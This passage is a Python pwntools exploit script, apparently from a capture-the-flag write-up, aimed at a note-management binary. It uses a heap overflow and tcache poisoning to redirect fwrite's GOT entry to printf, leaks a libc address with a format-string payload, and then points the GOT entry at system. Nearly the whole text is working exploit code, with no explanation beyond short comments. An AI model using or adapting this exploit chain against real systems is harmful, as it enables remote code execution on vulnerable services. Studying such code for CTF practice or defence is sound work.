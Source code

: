 ```python=
  r.recvuntil("op>\n")
  r.sendline("4")
  r.recvuntil("node_id>\n")
  r.sendline(str(index))
  r.recvuntil("text_len>\n")
  r.sendline(str(len(text)))
  r.recvuntil("text>\n")
  r.send(text)

def write_bin(index,binary):
  r.recvuntil("op>\n")
  r.sendline("5")
  r.recvuntil("node_id>\n")
  r.sendline(str(index))
  r.recvuntil("bin_len>\n")
  r.sendline(str(len(binary)))
  r.recvuntil("bin>\n")
  r.send(binary)

def read_text(index):
  r.recvuntil("op>\n")
  r.sendline("6")
  r.recvuntil("node_id>\n")
  r.sendline(str(index))

def wtf():
  r.recvuntil("op>\n")
  r.sendline("7")

if len(sys.argv) == 1:
  r = process([binary, "0"], env={"LD_LIBRARY_PATH":"."})

else:
  r = remote(host ,port)

if __name__ == '__main__':
  create_note(0)
  create_note(0)
  wtf()
  write_bin(0,"")
  create_note(0)
  create_note(0)
  root = 0x0519188
  pool = 0x0519170
  buf = 0x519800
  fwrite_got = 0x519098
  write_text(0,p64(0x41) + p64(0x41) + p64(0x519800) + p64(0x519800) + p64(0x519800+0x100) + p64(0x200) + p64(0) + p64(0)) # fake structure
  write_text(0x41,b"\x00"*192 + p64(fwrite_got)) # heap overflow & 0x20 tcache fd changed to fwrite_got

  create_note(0)
  printf_plt = 0x404056
  write_text(5,p64(printf_plt)) # Change fwrite_got of tcache attack to printf_plt
  fmt = "%p."*0x10
  write_text(0,fmt) # fmt leak libc
  read_text("0")
  for i in range(14):
    r.recvuntil(".")
  libc = int(r.recvuntil(".")[:-1],16) - 0x270b3
  print("libc = {}".format(hex(libc)))
  system = libc + 0x55410
  write_text(5,p64(system)) # fwrite_got changed to system 
```